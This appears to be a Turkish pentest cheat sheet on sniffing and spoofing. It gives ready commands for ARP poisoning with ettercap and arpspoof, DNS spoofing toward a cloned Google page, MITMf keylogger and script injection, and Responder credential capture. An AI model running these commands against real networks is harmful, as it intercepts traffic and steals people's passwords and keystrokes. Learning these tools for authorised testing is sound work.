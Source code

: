 ## 08. SNIFFING & SPOOFING (KOKLAMA VE SIZDIRMA ARAÇLARI):

### Ettercap :
    Ağı dinleme ve yönlendirme yapmaya yarar.
    
    Hedefteki cihaza saldırıp şifreleri ele geçirmek için :
    `ettercap -Tq -M arp:remote -i wlan0 /modem_ip//   /hedef_ip//`
    
    Site yönlendirme yapmak için:
    `leafpad /etc/ettercap/etter.dns`	//site yönlendirmelerini düzenle
    `ettercap -Tq -M arp:remote -P dns_spoof -i eth0 /// ///`
	//plug-ini dns_spoof yazan yere de yazabiliriz yada programı çalıştırıp p ye basarak seçebiliriz.

### Ferret , Hamster :
    Ferret : Ağ üzerine kullanıcıların girdikleri web sitelerini kaydeder.
    “ferret -i eth0” -> Bilgi toplamaya başlar.
    
    Hamster : Ferret’ten gelen bilgileri görsel olarak düzenli şekilde görülmesini sağlar.

### Macchanger :
    Mac adresini değiştirmeye yarar. 
    “ifconfig eth0 down”     ->     Önce ağ kartı devre dışı bırakılır.
    “macchanger -r eth0”    ->     r parametresi rastgele mac adresi oluşturur.
    “macchanger --mac 12:23:34:45:56:67 eth0”    ->      Elle mac girmek için.
    “ifconfig eth0 up”          ->    Ağ kartı tekrar aktif edilir.
    “macchanger --permanent eth0”     ->    İlk orjinal ayarına döndürür.
    
    Başka bir mac adres değiştirme yöntemi :
    “ifconfig wlan0 down”
	“ifconfig wlan0 hw ether 00:11:22:33:44:55”

### MITM (Man in the Middle Framework)  
    Yüklemek için     ->    “apt-get install mitmf”  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0”  
    Güvenli Https isteklerini Http olarak açtırır. Hsts kullanan sitelerde çalışmaz. (Hsts: Adres satırına elle http girsen bile seni https sayfasına atar. Facebook ve gmail hsts kullanıyor)  

### MITM DNS  
    Sahte Dns adreslerine yönlendirme yapar.İstediğimiz ip adresine yönlendiririz.  
    “leafpad /etc/mitmfmitmf.conf” -> Açılan dosyada \[\[\[A\]\]\] yazan yer girilen sitenin yönlendirildiği ip nin yazıldığı yer. (\*.hotmail.com = 192.168.1.1)  

    Yönlendirmeyi başlatma :  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --dns”

    Ekran Görüntüsü Alma:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --screen --interval 20” (20 saniye)  
    Görüntülerin kaydedildiği yer : /var/log/mitmf  
    Hata verirse : “pip install Twisted=15.5.0”  

    Klavye Tuşlarını Takip Etmek:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --jskeylogger”  

    Java Script Kodlarını Çalıştırmak:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --inject --js-payload “alert(‘...’);”
### Mitm Proxy :
	Ağdaki kullanıcıların girdikleri web sitelerini analiz eder.
    
    Port yönlendirme için izin verme :
	`echo 1 > /proc/sys/net/ipv4/ip_forward`  -> bu dosyadaki 0 değerini 1 yaptık.
	
	Port yönlendirme için :
	`iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to -port 8080`  ->  80’den gelenleri 8080’e yönlendir.
	
	Arp yönlendirmesi (arpspoof):
	`arpspoof -i eth0 -t hedef_ip_adresi  modem_ip_adresi`
	`mitmproxy -T -p 8080`
	
### Arp Saldırısı :
    Ağdaki Gateway aygıtının mac adresini kendi cihazımız olarak ayarlayıp, ağdaki diğer cihazların yönlendirmelerini kendi üzerimizden yapmak. Mıtm proxy ile aynı işlemler.
    
    Arp ile ağdaki cihazların keşfi;
	“arping 192.168.0.1” => Modeme ping atar, mac adresini öğrenir.
   
    Ağda kimler var;
	“arp-scan --localnet”
	“arp-scan --localnet --interface=eth0(wlan0)”
    
    Port yönlendirme için izin verme :
    “echo 1 > /proc/sys/net/ipv4/ip_forward”  -> bu dosyadaki 0 değerini 1 yaptık.
    
    Arp yönlendirmesi (arpspoof):
    “arpspoof -i eth0 -t hedef_ip_adresi -r modem_ip_adresi”
   
    Hedef ip gateway’e gitmeye çalışırken bizim eth0 interface’imizden geçecek.
    -r reverse ( Her iki taraf içinde zehirleme yapar tek komutta )


### Responder :
	Ağ üzerinde netbios’dan gelen istekleri izler. Ağda herhangi bir dosya paylaşımına ulaşılmak istendiğinde araya girerek kullanıcı adı ve şifreleri öğrenir. 
   
    `python Responder.py -i 192.168.42.131 -I eth0 -w -r -f`  komutu ile uygulamayı çalıştırıyoruz.

    -i   : Ip adresimizi belirttik.
    -I   : Ağ adaptörümüzü belirttik. ( eth0, gns33, wifi0 vs.)
    -w   : WPAD Proxy sunucusunu başlatır. Default olarak kapalı gelir.
    -r   : NetBIOS’un wredir sorgularına cevap verir
    -f   : Makine parmak izlerini izlememizi sağlar.    

#### Smb sign özelliğine bakma
    “python /usr/share/responder/tools/Runfinger.py -i 192.168.1.1/24” yada
    “responder-RunFinger -i 192.168.0.0/24”

### Wireshark :
	Ağ analizinde kullanılır. Ağ kartına tıklanarak dinlemeye başlanır.
    Protokol adı contains “aranacak kelime ” = O protokol verileri içerisinde geçen aranan kelimenin olduğu satırları getirir.
    File>Export Object ile dosyaları dışarı çıkart.

### Tshark :
    tshark -i eth0 -w dosya.pcap -f “tcp” -c 10 --capture-comment “yorum satırı”
    i = interface
    w= oluşturulacak dosya adı
    f= protokol filtreleme
    c= yakalanacak paket miktarı
    r= okunacak dosya
   
### DNS Spoofing
    Hedefe DNS yönlendirme yaptırarak istediğimiz adrese gitmesini sağlarız.
    1.	Dns config dosyası oluştur. (dns.cfg)
    192.168.1.15	*.google.com
    (kendi ip’miz)
    2.	Klon site yap. (Örnek : setolkit programıyla google kopyala.)
    Oluşan klon siteye kendi ip mizin 80 portundan bakabiliriz.
    3.	“dnsspoof -i eth0 -f /root/Desktop/dns.cfg”
